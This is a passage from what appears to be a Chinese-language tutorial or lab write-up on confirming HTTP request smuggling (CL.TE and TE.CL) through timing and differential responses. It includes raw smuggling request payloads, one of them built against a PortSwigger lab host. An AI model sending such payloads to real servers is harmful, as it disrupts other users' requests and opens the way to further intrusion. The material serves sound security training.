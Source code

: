 由于前端服务器使用`Transfer-Encoding`标头，因此它将仅转发此请求的一部分，而忽略`X`。后端服务器使用`Content-Length`标头，期望消息正文中有更多内容，然后等待其余内容到达。这将导致明显的时间延迟。

> 如果应用程序容易受到该漏洞的CL.TE变体的攻击，则基于时间的TE.CL漏洞测试可能会破坏其他应用程序用户。因此，要隐身并最大程度地减少中断，您应该首先使用CL.TE测试，只有在第一个测试失败的情况下才继续进行TE.CL测试。

### 4.2 使用差异响应确认HTTP请求走私漏洞

当检测到可能的请求走私漏洞时，您可以利用此漏洞触发应用程序响应内容的差异来获取该漏洞的进一步证据。这涉及快速连续地向应用程序发送两个请求：

- 一种“攻击”请求，旨在干扰下一个请求的处理。
- “正常”请求。

#### 4.2.1 使用差异响应确认CL.TE漏洞

要确认CL.TE漏洞，您将发送如下攻击请求：

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果攻击成功，则后端服务器会将此请求的最后两行视为属于接收到的下一个请求。这将导致随后的“正常”请求如下所示：

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

由于此请求现在包含无效的URL，因此服务器将以状态代码404进行响应，指示攻击请求确实确实对其进行了干扰。

Lab地址：https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

构造数据包：

```
POST / HTTP/1.1
Host: ac201f6c1fc9901e8087240700e3006a.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=Jcr7wr0rAtPCIePHi3MpPtKYvXX6Oe3p
Upgrade-Insecure-Requests: 1
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
